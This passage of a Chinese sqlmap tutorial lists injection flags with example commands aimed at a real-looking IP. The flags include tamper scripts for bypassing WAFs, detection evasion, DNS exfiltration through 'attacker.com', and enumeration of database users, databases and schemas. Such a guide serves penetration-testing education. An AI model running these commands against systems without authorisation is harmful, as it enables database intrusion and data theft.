 > **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —invalid-logical**

1. ##### —no-cast： 将sqlmap取出的数据转换为字符串，并用空格替换NULL结果，在老版本时需要开启此开关。

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —no-cast**

1. ##### —no-escape：为了逃逸服务器端对sqlmap的检测，默认使用char()编码替换字符串。本参数将关闭此功能。比如 select ‘foo’ —> select cahr(102) + char(111) + char(111)

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —no-escape**

1. ##### —prefix：添加前缀

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —prefix “‘)’”**

1. ##### —suffix ：添加后缀

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —suffix “AND (‘abc’=’abc”**

1. ##### —tamper：使用脚本，绕过IPS、WAF等

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —tamper=”tamper/between.py,tamper/randomcase.py”**

1. ##### —dns-domain：攻击者控制了DNS服务器，可以提高取出数据的效率

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —dns-domain attacker.com**

1. ##### —second-order：在一个页面注入的结果，从另外一个页面提现出来

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —second-order “http://1.1.1.1/b.php“**

## 八.查看基本信息

1. ##### -f ：扫描时加入数据库指纹检测

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -f**

1. ##### -b ： 查看数据库的版本信息

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -b**

## 九.查看数据信息

1. ##### —users ： 查询所有的数据库账号

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —users**

1. ##### —dbs ： 查询所有数据库

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —dbs**

1. ##### —schema ： 查询源数据库（包含定义数据的数据）

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ —schema**

1. ##### -a ： 查询当前user、当前数据库、主机名、当前user是否是最大权限管理员、数据库账号等

> **python sqlmap.py -u “http://59.63.200.79:8003/?id=1“ -a**

1. ##### -D dvwa： 指定数据库
